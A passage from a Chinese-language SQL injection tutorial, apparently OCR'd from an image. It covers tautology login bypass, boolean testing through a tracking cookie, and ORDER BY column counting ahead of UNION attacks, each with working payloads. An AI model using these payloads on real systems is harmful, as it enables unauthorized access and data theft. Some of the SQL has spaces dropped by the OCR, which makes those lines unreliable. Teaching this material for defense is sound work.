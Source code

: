 3. 检索隐藏数据并颠覆逻辑  
  
3.1 身份验证绕过（重言式）  
  
情况：登录表单构建如下查询：  
  

```
SELECT * FROMusersWHERE username = '$user'ANDpassword = '$pass';
```

  
  
注入：提供username: ' OR '1'='1任意密码：  
  

```
SELECT * FROMusersWHERE username = ''OR'1'='1'ANDpassword = 'foo';
```

  
  
此有效载荷通过注入一个始终为真的条件 ( '1'='1') 来破坏 AND 逻辑。我们之所以选择它，是因为它能够可靠地绕过简单的凭证检查，而无需事先知道有效的用户名或密码。数据库会返回第一个匹配的用户记录，通常会授予管理员访问权限。  
  
3.2 条件登录测试  
  
情况：会话跟踪 Cookie（例如 ）TrackingId在有效时会触发自定义消息“欢迎回来！”。内部操作如下：  
  

```
SELECT * FROM sessions WHEREid = 'TrackingId';
```

  
  
注入：将条件切换为真/假：  
  

```
Cookie: TrackingId=xyz' AND '1'='1
Cookie: TrackingId=xyz' AND '1'='2
```

  
  
这些有效载荷的工作原理是将额外的布尔表达式附加到原始查询中。选择'AND '1'='1'可确保条件仍然有效，从而导致应用程序确认会话。相反，'AND '1'='2'始终失败，这演示了布尔差异如何揭示注入点。  
  
4.基于UNION的注入  
  
4.1 确定列数  
  
应用程序通常会返回多列。UNION攻击者在使用之前，必须匹配列数和数据类型。  
  
有效载荷：  
  

```
?id=1' ORDER BY 1--
?id=1' ORDER BY 2--
... 
?id=1' ORDER BY N-- # yields an error when N exceeds column count
```

  
  
每次增量都会测试应用程序是否接受按该列索引排序。如果发生错误，它会指示真实的列数。我们选择这种方法是因为它可靠，并且不需要事先了解架构。  
  